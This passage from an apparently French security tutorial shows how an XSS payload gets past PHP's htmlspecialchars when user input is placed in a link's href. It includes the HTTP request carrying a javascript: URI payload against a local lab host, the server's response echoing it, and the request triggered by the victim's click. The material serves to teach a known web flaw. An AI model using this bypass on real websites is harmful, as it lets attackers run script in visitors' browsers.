 ```http
GET /minipoc/htmlspecialchars/?param=javascript:document.write(%22%3Cimg%20src=x%20onerror=alert(1)%3E%22) HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.38 (Debian)
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Attribut "href" d'un lien</title>
  </head>
  <body>
     <p><a href="javascript:document.write(&quot;&lt;img src=x onerror=alert(1)&gt;&quot;)">Lien</a></p>
  </body>
</html>
```

Etant donné que l'interpréteur est ici le moteur Javascript et non le moteur de rendu HTML, les entités HTML sont tout de même interprétées.

```http
GET /minipoc/htmlspecialchars/x HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://192.168.56.101/minipoc/htmlspecialchars/?param=javascript:document.write(%22%3Cimg%20src=x%20onerror=alert(1)%3E%22)
Connection: close
```

&#x20;Soit lors du clic de la victime :&#x20;

![](<../../../.gitbook/assets/image (35).png>)
